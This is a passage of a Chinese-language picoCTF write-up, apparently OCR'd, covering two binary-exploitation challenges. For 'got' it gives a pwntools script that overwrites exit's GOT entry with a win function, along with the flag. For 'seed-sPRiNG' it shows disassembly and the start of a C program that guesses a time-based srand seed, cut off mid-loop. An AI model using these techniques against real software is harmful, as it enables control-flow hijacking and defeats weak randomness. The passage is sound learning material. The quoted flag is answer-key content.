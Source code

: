 ```
r=process('./got')
e=ELF('./got')
puts_got=e.got['puts']
exit_got=e.got['exit']
win=e.symbols['win']
# print(hex(win))
# print(hex(exit_got))
# print(type(hex(win)))
r.sendlineafter('address\n',str(exit_got))
r.sendlineafter('value?\n',str(win))

r.recvall()
# r.interactive()
```
不用p32 因為他是吃int

picoCTF{A_s0ng_0f_1C3_and_f1r3_2a9d1eaf}
## seed-sPRiNG - Points: 350 - (Solves: 420)Binary Exploitation
### review
搞了一個下午  pico 應該是有防作弊之類的

你看看 日本人寫的writeup port 是 4160

奸詐的題目 local 測試時 seed 很老實的就是 time(0)

```
|           0x00000889      83c410         add esp, 0x10
|           0x0000088c      83ec0c         sub esp, 0xc
|           0x0000088f      6a00           push 0
|           0x00000891      e89afcffff     call sym.imp.time           ; time_t time(time_t *timer)
|           0x00000896      83c410         add esp, 0x10
|           0x00000899      8945f0         mov dword [local_10h], eax
|           0x0000089c      8b45f0         mov eax, dword [local_10h]
|           0x0000089f      83ec0c         sub esp, 0xc
|           0x000008a2      50             push eax
|           0x000008a3      e8c8fcffff     call sym.imp.srand          ; void srand(int seed)

```
阿遠端時一直不過 我想說484我的recv那些寫錯了 看了超久 或是懷疑同步失敗

害我還去同步時間

後來看了別人的解法 MD 好像要爆破 = =

結果offset 20幾 sec

說好的時間同步ㄋ？？
### code
rand.c
```
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(int argc, char **argv)
{
    int delta = atoi(argv[1]);
    //int delta=0;
    // char c;
    // printf("%d\n",delta );
    srand(time(NULL)+delta);
    for (int i=0; i<30; i++)
{

```